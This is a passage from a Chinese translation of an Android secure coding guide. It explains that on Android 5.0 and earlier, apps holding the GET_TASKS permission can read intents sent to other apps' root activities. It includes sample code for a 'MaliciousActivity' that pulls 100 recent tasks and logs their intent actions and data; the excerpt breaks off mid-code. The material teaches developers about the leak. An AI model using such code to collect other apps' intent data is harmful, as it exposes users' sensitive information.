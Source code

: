 #### 4.1.3.3 读取发送给活动的意图

在 Android 5.0（API Level 21）及更高版本中，使用`getRecentTasks()`得到的信息仅限于调用者自己的任务，并且可能还有一些其他任务，例如已知不敏感的其他任务。 但是支持 Android 5.0（API Level 21）版本的应用应该防止泄露敏感信息。 以下描述了问题内容，它出现在 Android 5.0 及更早版本中。

发送到任务的根`Activity`的意图，被添加到任务历史中。 根活动是在任务中启动的第一个活动。 任何应用都可以通过使用`ActivityManager`类，读取添加到任务历史的意图。

下面显示了从应用中读取任务历史的示例代码。 要浏览任务历史，请在`AndroidManifest.xml`文件中指定`GET_TASKS`权限。

AndroidManifest.xml

```
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="org.jssec.android.intent.maliciousactivity" >

    <!-- Use GET_TASKS Permission -->
    <uses-permission android:name="android.permission.GET_TASKS" />

    <application
        android:allowBackup="false"
        android:icon="@drawable/ic_launcher"
        android:label="@string/app_name"
        android:theme="@style/AppTheme" >
        <activity
            android:name=".MaliciousActivity"
            android:label="@string/title_activity_main"
            android:exported="true" >
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```

MaliciousActivity.java

```
package org.jssec.android.intent.maliciousactivity;

import java.util.List;
import java.util.Set;
import android.app.Activity;
import android.app.ActivityManager;
import android.content.Intent;
import android.os.Bundle;
import android.util.Log;

public class MaliciousActivity extends Activity {

    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.malicious_activity);
        // Get am ActivityManager instance.
        ActivityManager activityManager = (ActivityManager) getSystemService(ACTIVITY_SERVICE);
        // Get 100 recent task info.
        List<ActivityManager.RecentTaskInfo> list = activityManager
            .getRecentTasks(100, ActivityManager.RECENT_WITH_EXCLUDED);
        for (ActivityManager.RecentTaskInfo r : list) {
            // Get Intent sent to root Activity and Log it.
            Intent intent = r.baseIntent;
            Log.v("baseIntent", intent.toString());
            Log.v(" action:", intent.getAction());
            Log.v(" data:", intent.getDataString());
            if (r.origActivity != null) {
```
